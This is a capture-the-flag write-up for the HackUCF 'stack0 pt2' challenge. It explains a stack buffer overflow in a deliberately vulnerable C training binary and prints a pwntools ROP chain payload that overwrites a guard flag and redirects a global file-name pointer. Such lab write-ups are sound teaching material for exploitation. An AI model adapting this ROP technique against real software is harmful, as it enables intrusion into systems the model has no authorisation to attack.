 ```yaml
---
layout: post
title: Global Variable Overwrite
description:
date: 2025-07-28
categories:
  - writeup
  - pwn
tags:
  - stack
---
```

# Exploit Write-up: Buffer Overflow with Global Variable Control

[Challenge](https://ctf.hackucf.org/challenges#stack0%20pt2)

### Overview

In this challenge, we are given a C program that contains a **buffer overflow vulnerability** in the `func()` function. The goal is to exploit this vulnerability to print the contents of the correct flag file, `flag2.txt`, even though the binary is hardcoded to open `flag1.txt`.

---

### Source Code Summary

```c
static const char* flagfile = "flag1.txt";

static void giveFlag(void) {
    char flag[64];
    FILE* fp = fopen(flagfile, "r");
    if (!fp) {
        perror(flagfile);
        return;
    }
    fgets(flag, sizeof(flag), fp);
    fclose(fp);
    printf("Here is your first flag: %s\n", flag);
}
```

In `giveFlag()`, the program uses a **global variable `flagfile`** to open the flag file. Our goal is to make it open `flag2.txt` instead.

---

### Vulnerability

In `func()`:

```c
void func(void) {
    bool didPurchase = false;
    char input[50];

    printf("Debug info: Address of input buffer = %p\n", input);
    read(STDIN_FILENO, input, 1024);

    if (didPurchase) {
        printf("Thank you for purchasing Hackersoft Powersploit!\n");
        giveFlag();
    } else {
        printf("This program has not been purchased.\n");
    }
}
```

- `input` is a 50-byte buffer.
- The program reads **1024 bytes** into it using `read()`, which causes a **stack-based buffer overflow**.
- `didPurchase` is right before `input` on the stack, so it can be overwritten.
- After that, the **return address can also be overwritten**.

---

### Exploitation Plan
1. **Overwrite `didPurchase`** to `true` so that `giveFlag()` is called.
2. **Overwrite the global variable `flagfile`** to point to `"flag2.txt"` instead of `"flag1.txt"`.
---
### Step-by-Step Exploitation
#### Step 1: Overwrite `didPurchase`
- Since `didPurchase` is right above `input`, the first byte of overflow can flip it to non-zero (`true`).
#### Step 2: Overwrite `flagfile`
- `flagfile` is a global pointer. So we can overwrite it with a pointer to `"flag2.txt"` stored in our buffer.
#### Step 3: Use ROP to overwrite `flagfile`

- Since we control the return address, we can craft a **ROP chain** to write the address of `"flag2.txt"` into the `flagfile` global variable.
- 
ROP gadget Used:

```
0x08049400 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
```

Payload:
```python
payload = flat(
	cyclic(63), # bytes to fill buffer up to EIP
	# write flag2.txt to writable memory
	read_, # read function address from giveflag function
	gadget, #  pop ebx ; pop esi ; pop edi ; pop ebp ; ret
	0, # stdin
	bss, # buf address where is will be store (writeable memory)
	11, # len
	0x0, # junk
	#overwrite the flagfile variable pointer
	read_, # read function address from giveflag function
	gadget, #  pop ebx ; pop esi ; pop edi ; pop ebp ; ret
	0, # stdin
	flagfile_addr_ptr, # hardcoded flagfile addr
	0x0,
	giveFlag, # giveflag function ptr
)
```

[Full Exploit Script](https://github.com/tibane0/ctf-pwn/blob/main/hackucf/stack0_pt2/xlp.py)

---

### Lessons Learned

- Global variables can be overwritten indirectly through buffer overflows.